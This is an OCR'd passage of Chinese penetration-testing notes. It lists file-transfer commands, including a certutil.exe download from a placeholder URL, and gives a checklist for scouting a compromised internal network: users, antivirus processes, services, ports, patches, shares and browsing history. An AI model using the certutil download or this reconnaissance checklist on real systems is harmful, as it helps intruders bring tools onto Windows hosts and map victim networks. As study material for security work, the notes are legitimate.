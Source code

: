 ```
scp user@host.com:/tmp file
```
rsync 
远程rsync服务器中拷贝文件到本地机 
```
rsync -av root@192.168.78.192::www /databack
```   
本地机器拷贝文件到远程rsync服务器 
```
rsync -av /databack root@192.168.78.192::www
```
certutil.exe 
```
certutil.exe -urlcache -split -f http://site.com/file
```
... 

## 内网信息搜集 

### 本机信息搜集
#### 1、用户列表
windows用户列表 
分析邮件用户，内网[域]邮件用户，通常就是内网[域]用户 

#### 2、进程列表
析杀毒软件/安全监控工具等 
邮件客户端 
VPN 
ftp等  

#### 3、服务列表 
与安全防范工具有关服务[判断是否可以手动开关等]
存在问题的服务[权限/漏洞]

#### 4、端口列表
开放端口对应的常见服务/应用程序[匿名/权限/漏洞等]
利用端口进行信息收集

#### 5、补丁列表
分析 Windows 补丁
第三方软件[Java/Oracle/Flash 等]漏洞

#### 6、本机共享
本机共享列表/访问权限
本机访问的域共享/访问权限

#### 7、本用户习惯分析 
历史记录 
收藏夹 
文档等 
